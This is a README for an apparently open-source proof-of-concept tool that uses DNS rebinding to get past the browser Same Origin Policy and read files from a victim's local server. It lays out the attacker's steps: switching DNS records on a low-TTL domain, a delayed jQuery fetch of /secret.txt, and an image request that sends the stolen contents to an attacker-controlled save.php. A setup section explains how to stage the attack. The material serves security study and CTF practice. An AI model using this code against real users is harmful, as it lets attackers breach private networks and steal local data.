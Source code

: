 # Bypass Same Origin Policy - BY-SOP

Bypass Same Origin Policy with DNS-rebinding to retrieve local server file.

**Goal** : retrieve a file on a private server http://127.0.0.1/secret.txt 
This normaly should by impossible due to [Same Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) but we will use [DNS-rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the SOP and retrieve the file.

> This attack can be used to breach a private network by causing the victim's web browser to access machines at private IP addresses and returning the results to the attacker.

**Important** : use the same port, `127.0.0.1` is different from `127.0.0.1:8080`, same with https (check this [example](https://developer.mozilla.org/fr/docs/Web/JavaScript/Same_origin_policy_for_JavaScript))

### Victim:

- visit the malicious page for at least ~2-3 minutes (playing flash game, fill a form etc)

### Attacker:
    
* attacker setup a domain with the lowest TTL (60 second, 120 for CloudFlare )
* one the victim visit the malicious page, he changes the dns IP of the domain with the local ip targeted

    - before `foo.domain.com. 59  IN  A   5.135.66.45`
    - after  `foo.domain.com. 59  IN  A   127.0.0.1`

    Since the `TTL` is very short, the attacker will make another request to retrieve the private file **AFTER** the `TTL` time is up (> 59), the request has to do an additional DNS request

    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
        });
    }, 180000); //3min to be sure
    ```

    However, by changing the DNS record in the meantime, the domain will resolve to the victim page with the local IP.
        There is no more Same Origin Policy and we can retrieve the content of the file.

* the content is send to another domain to save the data
    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
            var image = new Image();
            image.src='http://domain.com/save.php?'+data;
        });
    }, 180000); //3min to be sure
    ```

    The file `save.php` don't need to allow Cross-origin resource sharing (CORS) from 127.0.0.1:80 to accept the request. In fact, img are incompatible with SOP. 
    But if you really want an execption, in PHP it can be done by adding this line `header("Access-Control-Allow-Origin: *.domain.com");`


* finally we have:
    ```bash
        cat save.txt
        {"WIN{AweSome_ByPass_SOP}":""}
    ```

## Setup

* Use the file `malicious.html`, the file `bypass_sop.html` is the same but more for academic comprehension.

* Add a subdomain with TTL 59 (120 in Cloudflare)
* Add another subdomain and allow CORS from your domain if you use GET or just use `image.src` to bypass the restriction CORS
* Victim
    - launch a local server `http-server -p 80 Dir`
    - launch the browser
    - go on sub.domain.com/malicious.html
* Change the DNS ip
* Wait
* Get the result into the other subdomain you setup

![BY-SOP](http://mpgn.fr/assets/images/ByP-SOP.jpg)

## Contributor

[mpgn](https://github.com/mpgn) 

## Licences

[licence MIT](https://github.com/mpgn/ByP-SOP/blob/master/LICENSE)

## References

* http://www.ptsecurity.com/download/DNS-rebinding.pdf
* https://www.abortz.net/papers/dns-rebinding.pdf
* https://en.wikipedia.org/wiki/DNS_rebinding
* http://www.circleid.com/posts/070809_defending_networks_dns_rebinding_attacks/
* https://dollberg.xyz/ctf/2016/03/13/0CTF-Monkey-Writeup/
* http://secgroup.github.io/2016/03/14/0ctf-writeup-monkey/
* https://w00tsec.blogspot.fr/2016/03/0ctf-2016-write-up-monkey-web-4.html

